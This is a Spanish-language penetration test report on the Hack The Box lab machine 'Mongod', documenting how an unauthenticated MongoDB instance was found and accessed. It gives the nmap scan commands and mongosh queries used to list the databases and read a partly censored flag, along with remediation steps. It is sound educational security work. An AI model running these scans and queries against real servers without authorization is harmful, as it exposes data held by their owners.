

# Informe de Prueba de Penetración — Mongod

| | |
|---|---|
| **ID de informe** | HO-0005-00 |
| **Objetivo** | Mongod (`10.129.228.30`) |
| **Plataforma** | Hack The Box — Starting Point (Tier 0) |
| **Tipo de prueba** | Caja negra (black box) |
| **Fecha de ejecución** | 2026-10-17 |
| **Autor** | Francisco Nieto — [@NiettoFrann](https://github.com/NiettoFrann) |
| **Versión** | 1.0 |
| **Clasificación** | Público — uso educativo |

> **Aviso legal.** Las pruebas se realizaron sobre un entorno de laboratorio autorizado
> (Hack The Box). Ninguna técnica descrita debe aplicarse sobre sistemas sin autorización
> expresa por escrito de su propietario.

### Control de versiones

| Versión | Fecha | Descripción |
|---------|-------|-------------|
| 1.0 | 2026-10-17 | Versión inicial |

---

## Índice

1. [Resumen ejecutivo](#1-resumen-ejecutivo)
2. [Alcance y metodología](#2-alcance-y-metodología)
3. [Narrativa del ataque](#3-narrativa-del-ataque)
4. [Hallazgos técnicos](#4-hallazgos-técnicos)
5. [Post-explotación](#5-post-explotación)
6. [Conclusiones](#6-conclusiones)
7. [Anexos](#7-anexos)

---

## 1. Resumen ejecutivo

### 1.1 Objetivo

Evaluar la seguridad del host **Mongod** simulando un atacante externo sin credenciales ni
conocimiento previo del entorno, con el fin de obtener el máximo nivel de acceso posible.

### 1.2 Resultado

> La base de datos del servidor está abierta a la red sin ningún control de acceso. Con una
> sola conexión y sin conocimientos avanzados se accedió a una base llamada
> `sensitive_information`. Un atacante real podría leer, modificar o borrar todo su
> contenido, con riesgo de fuga de datos y de obligaciones de notificación según la
> normativa de protección de datos aplicable.

**Nivel de riesgo global:** `CRÍTICO`

### 1.3 Distribución de hallazgos

| Crítica | Alta | Media | Baja | Informativa |
|:-------:|:----:|:-----:|:----:|:-----------:|
| 1 | 0 | 0 | 0 | 1 |

### 1.4 Resumen de hallazgos

| ID | Hallazgo | Severidad | CVSS |
|----|----------|-----------|------|
| [HO-0005-01](#ho-0005-01--mongodb-expuesto-en-red-sin-autenticación) | MongoDB expuesto en red sin autenticación | Crítica | 9.8 |
| [HO-0005-02](#ho-0005-02--versión-de-mongodb-368-sin-soporte-del-fabricante) | Versión de MongoDB (3.6.8) sin soporte del fabricante | Informativa | 0.0 |

### 1.5 Recomendaciones prioritarias

1. Crear un usuario administrador y activar `security.authorization: enabled` (plazo sugerido: 24–48 h).
2. Limitar el acceso con `net.bindIp` y reglas de firewall sobre el puerto 27017 (24–48 h).
3. Revisar los registros de conexión y planificar la migración a una versión con soporte.

---

## 2. Alcance y metodología

### 2.1 Alcance

| Activo | Dirección | Incluido |
|--------|-----------|:--------:|
| Mongod | `10.129.228.30` | Sí |

**Fuera de alcance:** ataques de denegación de servicio, infraestructura de la
plataforma y otros jugadores. No se modificó ni eliminó ningún dato.

### 2.2 Metodología

La prueba siguió las fases del estándar **PTES** (Penetration Testing Execution
Standard):

1. **Reconocimiento** — descubrimiento de puertos y servicios.
2. **Enumeración** — identificación de versiones y bases de datos expuestas.
3. **Análisis de vulnerabilidades** — validación manual del control de acceso.
4. **Explotación** — obtención de acceso inicial.
5. **Post-explotación** — recolección de evidencia.
6. **Reporte** — documentación de hallazgos y recomendaciones.

### 2.3 Entorno del auditor

| Componente | Detalle |
|------------|---------|
| Sistema | Linux (kernel 7.2.11-zen1-1-zen) |
| Conexión | VPN de Hack The Box |
| Herramientas | ping, nmap 7.991, mongosh 1.10.6 |

### 2.4 Clasificación de severidad

Las vulnerabilidades se puntúan con **CVSS v3.1** (ver tabla de criterios estándar).

---

## 3. Narrativa del ataque

### 3.1 Cadena de compromiso



HO-0005-02 es un factor agravante: una versión sin soporte no recibe correcciones de
seguridad. El único fallo explotado es HO-0005-01.

### 3.2 Reconocimiento

Verificación de conectividad:

```bash
ping -c 1 10.129.228.30 | tee loot/ping.txt
```

El TTL de respuesta es 63; los sistemas Linux parten de 64 y el valor restante indica un
salto intermedio (VPN), por lo que se infiere un sistema **Linux**.

Descubrimiento de puertos abiertos:

```bash
nmap -p- --min-rate=5000 -T4 -Pn -n 10.129.228.30 -oN loot/puertos.txt
```

Detección de servicios y versiones:

```bash
nmap -p22,27017 -sCV -Pn -n -T4 10.129.228.30 -oN loot/detallado.txt
```

| Puerto | Servicio | Versión | Observaciones |
|--------|----------|---------|---------------|
| 22/tcp | SSH | OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 | Sin credenciales; se descarta como vector inicial. |
| 27017/tcp | MongoDB | MongoDB 3.6.8 | Los scripts NSE listaron las bases de datos sin credenciales. |

> Salida completa en el [Anexo A](#a-salida-completa-de-escaneos).

### 3.3 Enumeración

Los scripts NSE de `nmap` pudieron listar las bases de datos sin autenticación, lo que ya
evidencia la ausencia de control de acceso antes de usar un cliente. Destaca una base
llamada `sensitive_information`.

Se confirmó con un cliente real:

```bash
mongosh --host 10.129.228.30 --port 27017
```

La conexión se establece sin pedir usuario ni contraseña y el servidor advierte al
iniciar:

```text
** WARNING: Access control is not enabled for the database.
**          Read and write access to data and configuration is unrestricted.
```

```text
test> show dbs
admin                   32.00 KiB
config                 108.00 KiB
local                   72.00 KiB
sensitive_information   32.00 KiB
users                   32.00 KiB
```

`sensitive_information` es el objetivo evidente por su nombre. La base `users` quedó
registrada como dato de interés, pero no se consultó porque no era necesaria para el
objetivo de la máquina.

### 3.4 Acceso inicial

Lectura de la colección `flag` en `sensitive_information`. Ver
**[HO-0005-01](#ho-0005-01--mongodb-expuesto-en-red-sin-autenticación)**.

### 3.5 Movimiento lateral

No aplica.

### 3.6 Escalada de privilegios

No se realizó: el acceso inicial ya otorga el máximo privilegio dentro de MongoDB y el
objetivo de la máquina se cumple sin obtener una shell en el sistema.

---

## 4. Hallazgos técnicos

### HO-0005-01 — MongoDB expuesto en red sin autenticación

| | |
|---|---|
| **Severidad** | Crítica |
| **CVSS v3.1** | 9.8 — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| **CWE** | [CWE-306](https://cwe.mitre.org/data/definitions/306.html) — Missing Authentication for Critical Function |
| **CVE** | — |
| **Componente afectado** | MongoDB 3.6.8 — `10.129.228.30:27017/tcp` |
| **Estado** | Explotada (lectura) |

#### Descripción

El servicio de base de datos acepta conexiones desde la red sin pedir usuario ni
contraseña (`security.authorization` desactivado). La causa raíz es un error de
configuración, no un defecto del software.

**Justificación del vector:** acceso por red, sin autenticación ni interacción. Se
confirmó la lectura; I:H y A:H se basan en la advertencia del propio servidor
(«Read and write access … is unrestricted») y no se ejercieron escritura ni borrado.

#### Prueba de concepto

**Paso 1.** Conexión sin credenciales.

```bash
mongosh --host 10.129.228.30 --port 27017
```

**Paso 2.** Enumeración y lectura de la colección.

```javascript
show dbs
use sensitive_information
show collections
db.flag.find()
```

```text
sensitive_information> show collections
flag
sensitive_information> db.flag.find()
[ { _id: ObjectId("630e3dbcb82540ebbd1748c5"), flag: '1b6e6fb3************************' } ]
```

No se realizaron operaciones de escritura ni de borrado.

#### Impacto

- **Confidencialidad:** lectura de todas las bases de datos del servidor (confirmada en
  `sensitive_information`).
- **Integridad:** modificación de registros o creación de usuarios administradores
  (probable, no ejercida).
- **Disponibilidad:** borrado de datos (probable, no ejercida).
- **Escalada potencial (no probada):** en configuraciones más permisivas, un MongoDB sin
  autenticación suele ser un paso previo hacia la ejecución de código en el host.

#### Remediación

- **Corto plazo:** crear un usuario administrador y activar la autorización en
  `/etc/mongod.conf`:

  ```yaml
  security:
    authorization: enabled
  ```

- **Largo plazo:** limitar el acceso con `net.bindIp` (`127.0.0.1` o la IP de la
  aplicación) y firewall sobre el puerto 27017; revisar `/var/log/mongodb/mongod.log` en
  busca de conexiones desde IP desconocidas y validar la integridad de los datos.

#### Referencias

- [MongoDB Security Checklist](https://www.mongodb.com/docs/v3.6/administration/security-checklist/)
- [CWE-306 — Missing Authentication for Critical Function](https://cwe.mitre.org/data/definitions/306.html)
- [HackTricks — 27017 MongoDB](https://book.hacktricks.xyz/network-services-pentesting/27017-27018-mongodb)

---

### HO-0005-02 — Versión de MongoDB (3.6.8) sin soporte del fabricante

| | |
|---|---|
| **Severidad** | Informativa |
| **CVSS v3.1** | 0.0 — no se identificó ninguna vulnerabilidad concreta explotable |
| **CWE** | [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) — Use of Unmaintained Third Party Components |
| **CVE** | — |
| **Componente afectado** | MongoDB 3.6.8 — `10.129.228.30:27017/tcp` |
| **Estado** | Observada, no explotada |

#### Descripción

La rama 3.6 de MongoDB alcanzó su fin de vida (EOL) el 30 de abril de 2021 y no recibe
correcciones de seguridad desde entonces.

#### Prueba de concepto

La versión `MongoDB 3.6.8` aparece en la salida de `nmap -sCV` y en la sesión de
`mongosh` (ver [Anexo A](#a-salida-completa-de-escaneos)).

#### Impacto

No se confirmó ninguna vulnerabilidad específica de esta versión. El riesgo es futuro: los
fallos que se descubran no tendrán parche oficial.

#### Remediación

- **Corto plazo:** mantener el servicio aislado en red (ver HO-0005-01).
- **Largo plazo:** migrar a una versión con soporte vigente, probando antes la
  compatibilidad de la aplicación.

#### Referencias

- [CWE-1104 — Use of Unmaintained Third Party Components](https://cwe.mitre.org/data/definitions/1104.html)
- [AWS Database Blog — MongoDB 3.6 End-of-Life Schedule](https://aws.amazon.com/blogs/database/amazon-documentdb-with-mongodb-compatibility-support-for-mongodb-server-3-6-end-of-life-schedule/)

---

## 5. Post-explotación

### 5.1 Acceso obtenido

| Nivel | Usuario | Método | Prueba |
|-------|---------|--------|--------|
| Acceso a base de datos (sin shell) | anónimo | HO-0005-01 | colección `flag` — `1b6e6fb3************************` |

> Mongod pertenece a Starting Point: solo existe una flag y no hay `user.txt` / `root.txt`.
> No se obtuvo shell en el sistema.

### 5.2 Información sensible expuesta

| Tipo | Ubicación | Observación |
|------|-----------|-------------|
| Datos sensibles | MongoDB — base `sensitive_information` | Legible sin autenticación. |
| Datos de usuarios | MongoDB — base `users` | Registrada como dato de interés; no se consultó. |

> Las flags se muestran parcialmente censuradas.

### 5.3 Limpieza

| Artefacto | Ubicación | Estado |
|-----------|-----------|--------|
| — | — | No se escribieron ni modificaron datos en el objetivo. |

---

## 6. Conclusiones

### 6.1 Conclusión técnica

El compromiso se debió a un servicio de base de datos accesible desde la red sin
autenticación; es un fallo de configuración, no de software, por lo que la versión
instalada es irrelevante mientras el acceso esté abierto. La versión sin soporte agrava el
riesgo a futuro.

### 6.2 Aprendizajes del auditor

- Reconocer servicios por su puerto estándar (`27017` → MongoDB) y comprobar el acceso
  anónimo antes de buscar exploits.
- Los scripts NSE (`-sC`) pueden revelar datos, como el listado de bases, y son evidencia
  temprana de ausencia de autenticación.
- Documentar la decisión tras cada paso hace que el informe sea reproducible.

---

## 7. Anexos

### A. Salida completa de escaneos

<details>
<summary>nmap — todos los puertos</summary>

```text
# Nmap 7.991 scan initiated Sat Oct 17 14:58:28 2026 as: nmap -p- --min-rate=5000 -T4 -Pn -n -oN puertos.txt 10.129.228.30
Nmap scan report for 10.129.228.30
Host is up (0.23s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
27017/tcp open  mongod

# Nmap done at Sat Oct 17 14:58:45 2026 -- 1 IP address (1 host up) scanned in 16.99 seconds
```

</details>

<details>
<summary>nmap — escaneo de servicios (extracto)</summary>

La salida completa (≈ 1200 líneas de `mongodb-info`) está en [`loot/detallado.txt`](loot/detallado.txt).

```text
# Nmap 7.991 scan initiated Sat Oct 17 14:59:43 2026 as: nmap -p22,27017 -sCV -Pn -n -T4 -oN detallado.txt 10.129.228.30
Nmap scan report for 10.129.228.30
Host is up (0.24s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
27017/tcp open  mongodb MongoDB 3.6.8 3.6.8
| mongodb-databases: 
|   databases
|     0 — name = admin
|     1 — name = config
|     2 — name = local
|     3 — name = sensitive_information
|     4 — name = users
|   ok = 1.0
|_  totalSize = 245760.0

# Nmap done at Sat Oct 17 14:59:58 2026 -- 1 IP address (1 host up) scanned in 14.54 seconds
```

</details>

<details>
<summary>mongosh — sesión completa</summary>

Disponible en [`loot/mongo.txt`](loot/mongo.txt).

</details>

### B. Scripts y exploits

No se utilizaron scripts ni exploits.

### C. Mapeo MITRE ATT&CK

| Táctica | Técnica | ID |
|---------|---------|----|
| Discovery | Network Service Discovery | [T1046](https://attack.mitre.org/techniques/T1046/) |
| Initial Access | Exploit Public-Facing Application | [T1190](https://attack.mitre.org/techniques/T1190/) |
| Collection | Data from Information Repositories | [T1213](https://attack.mitre.org/techniques/T1213/) |

### D. Referencias generales

- [Página de la máquina en HTB](https://app.hackthebox.com/machines/Mongod)
- [PTES — Penetration Testing Execution Standard](http://www.pentest-standard.org/)
- [Calculadora CVSS v3.1 — FIRST](https://www.first.org/cvss/calculator/3.1)
- [MITRE ATT&CK](https://attack.mitre.org/)
